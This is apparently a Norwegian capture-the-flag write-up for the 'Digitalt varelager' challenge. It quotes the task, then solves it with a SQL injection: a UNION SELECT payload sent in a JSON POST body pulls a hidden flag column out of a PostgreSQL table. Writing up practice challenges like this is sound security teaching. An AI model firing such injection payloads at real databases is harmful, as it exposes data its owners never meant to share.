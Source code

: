 # Luke 5 - Digitalt varelager

```
NPST har digitalisert varelageret sitt og flyttet det til skyen! For øyeblikket er det fortsatt i oppstartsfasen og trenger litt kvalitetssjekking.

Har du mulighet til å se om Varelager v1 funker som det skal og at det ikke skjuler seg noen feil i systemet?

Varelageret finner du her, og bruk programmeringsgrensesnittnøkkel v1_pgmsqxmddz.

Mvh Mellomleder
```
link: https://varelager.p26e.dev/

---

## Løsning

SQL Injection. Det viser seg å være en postgressql database. En enkel join skal til for å vise en skjult kolenne i tabellen.

Denne kunne også løses uten SQL injection siden hele tabellen ble returnert til klient, bare ikke vist. Så flagget kan hentes ved å sjekke informasjonen mottatt under "Network" i Chrome developer tools.

For enklere debugging ved feil, brukte jeg postman istedenfor nettsiden noe som lot meg se feilmeldingene.

`POST` spørring til `https://varelager.p26e.dev/api/search`

### Request
```json
{
    "search":"spilleringenrolle' UNION (SELECT id, navn, antall, enhet, kommentar, flagg FROM v1.ting WHERE flagg IS NOT NULL ) ;--%;",
    "key":"v1_pgmsqxmddz"
}
```
### Response
```json
[
  {
    "id": "13b97062-dd26-41dc-bda0-58e4be6d1deb",
    "navn": "Ukjent vare",
    "antall": 1,
    "enhet": "stk",
    "kommentar": "🚩",
    "flagg": "PST{5Q1_1nj€Ⓒt10n}"
  }
]
```

---

## 🥚 Easter Egg 🥚

En enkel inspisering av kildekode så viser et easter egg seg.

![Egg skjembilde](.\egg_skjermbilde.png "Egg 🥚")